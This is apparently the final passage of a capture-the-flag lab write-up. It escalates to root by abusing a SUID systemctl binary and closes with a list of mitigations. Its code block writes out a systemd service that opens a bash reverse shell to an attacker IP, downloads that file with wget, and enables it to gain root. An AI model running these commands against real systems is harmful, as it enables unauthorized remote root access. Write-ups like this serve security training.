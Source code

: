 ![image.png](image%2019.png)

[GTFOBins-systemctl-SUID](https://gtfobins.github.io/gtfobins/systemctl/#suid)

For some reason exact methodology didn’t work for me here, I created `mine.service` under `/home/pepper` directory with content:

```bash
#On attacker machine
1. echo '[Service]
Type=oneshot
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.12/6666 0>&1'
[Install]
WantedBy=multi-user.target' > attacker.service

#On target
2. wget http://10.10.14.12/attacker.service -O /home/pepper/mine.service

3. TF=/home/pepper/mine.service

4. systemctl link $TF

5. systemctl enable --now $TF
```

![image.png](image%2020.png)

Now we are root!

## Mitigation

- Apply input validation and use parameterized queries to prevent SQL injection.
- Restrict web shell upload paths and enforce proper file permissions.
- Avoid using SUID on powerful binaries like `systemctl`.
- Review `sudo` and script execution permissions to prevent privilege escalation.
- Regularly audit the system for insecure file permissions and configurations.
